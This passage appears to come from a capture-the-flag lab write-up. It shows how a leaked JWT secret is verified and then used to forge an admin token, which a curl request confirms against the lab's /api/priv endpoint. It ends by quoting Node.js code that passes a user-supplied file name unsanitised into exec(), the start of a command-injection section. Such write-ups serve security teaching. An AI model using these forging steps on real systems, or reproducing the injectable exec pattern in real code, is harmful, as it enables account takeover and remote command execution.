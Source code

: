 To show this only works if the secret is correct, I’ll change the last character of secret from “M” to “m” and try again. It throws an InvalidSignatureError exception:

>>> jwt.decode(token, secret[:-1]+'m')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 119, in decode
    decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 90, in decode_complete
    decoded = api_jws.decode_complete(
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 149, in decode_complete
    self._verify_signature(signing_input, header, signature, key, algorithms)
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 236, in _verify_signature
    raise InvalidSignatureError("Signature verification failed")
jwt.exceptions.InvalidSignatureError: Signature verification failed

That means the secret is good!
Create Token

I’ll note above that jwt.decode() returns a dictionary with the various data from the JWT. I’ll save that to j, and then change the name to theadmin and use jwt.encode() to create a new token from that dictionary:

>>> j = jwt.decode(token, secret)
>>> j['name'] = 'theadmin'
>>> jwt.encode(j, secret)
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8'

/api/priv confirms that this token has the admin role:

oxdf@hacky$ curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq .
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}

#### Command Injection
### Theory

## The code that I suspect will be vulnerable to command injection is:
```bash
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
        if(err){
            res.status(500).send(err);
            return
        }
        res.json(output);
    })
}

```
